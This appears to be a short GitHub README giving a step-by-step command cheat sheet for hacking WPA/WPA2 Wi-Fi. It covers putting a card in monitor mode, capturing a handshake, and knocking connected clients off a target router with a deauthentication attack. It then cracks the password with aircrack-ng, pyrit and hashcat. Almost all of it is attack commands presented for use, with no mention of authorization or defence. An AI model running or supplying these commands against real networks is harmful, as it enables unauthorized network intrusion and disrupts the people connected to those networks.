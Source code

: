 # wifi-kali

http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html

## Extract handshake
* airmon-ng start wlan0
* airodump-ng wlan0mon
* airodump-ng -c 1,1 --bssid {target_router_bssid} -w /mnt/mon0 wlan0mon
* aireplay-ng -0 2 -a {target_router_bssid} -c {connected_station_bssid} wlan0mon
* airmon-ng stop wlan0mon

## Crack password

### aircrack-ng
* aircrack-ng -a2 -b {target_router_bssid} -w /mnt/wordlist.txt /mnt/*.cap

### pyrit
* pyrit -r mon0-01.cap analyze
* pyrit -u sqlite:///mydb.db -i wordlist.txt import_passwords
* pyrit -u sqlite:///mydb.db -e {attacked_network_name} create_essid
* #pyrit eval
* pyrit -u sqlite:///mydb.db batch
* pyrit -u sqlite:///mydb.db -r *.cap attack_db

### hashcat
#### in kali:
* wpaclean out.cap mon0-01.cap
* aircrack-ng out.cap -J out

#### in hashcat:
* hashcat -m 2500 -a 3 out.hccap '?d?d?d?d?d?d?d?d'
